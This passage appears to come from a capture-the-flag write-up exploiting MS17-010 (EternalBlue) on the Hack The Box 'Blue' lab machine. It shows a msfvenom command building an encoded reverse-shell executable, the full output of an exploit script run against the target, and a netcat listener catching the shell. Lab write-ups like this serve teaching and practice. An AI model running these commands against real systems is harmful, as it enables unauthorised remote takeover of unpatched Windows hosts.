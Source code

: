```python
- Windows 8.1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x64
- Windows 2008 SP1 x64
- Windows 2003 R2 SP2 x64
- Windows XP SP2 x64
- Windows 8.1 x86
- Windows 7 SP1 x86
- Windows 2008 SP1 x86
- Windows 2003 SP2 x86
- Windows XP SP3 x86
- Windows 2000 SP4 x86
'''

USERNAME = 'An00bRektn'
PASSWORD = ''
[code review omitted because I'm lazy]
```

We're now ready to exploit.

## Shell as Administrator

I'll generate a msfvenom payload as follows:
```bash
(blue) kali@kali:/opt/MS17-010$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -e x86/shikata_ga_nai -f exe -o reverse.exe
```

All we have to do now is set up a listener and run the script. If I'm not recieving a meterpreter shell, I like to prepend my netcat listener with `rlwrap` so I can use the arrow keys.
```sh
(blue) kali@kali:/opt/MS17-010$ sudo python send_and_execute.py 10.10.10.40 reverse.exe 
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: browser
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80045d14a0
SESSION: 0xfffff8a004088de0
FLINK: 0xfffff8a008628088
InParam: 0xfffff8a00862215c
MID: 0x4103
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Sending file ZA56KT.exe...
Opening SVCManager on 10.10.10.40.....
Creating service DsRv.....
Starting service DsRv.....
The NETBIOS connection with the remote host timed out.
Removing service DsRv.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```
And on the listener...
```shell
kali@kali:~/ctf/htb/blue$ sudo rlwrap nc -lvnp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.40] 49158
```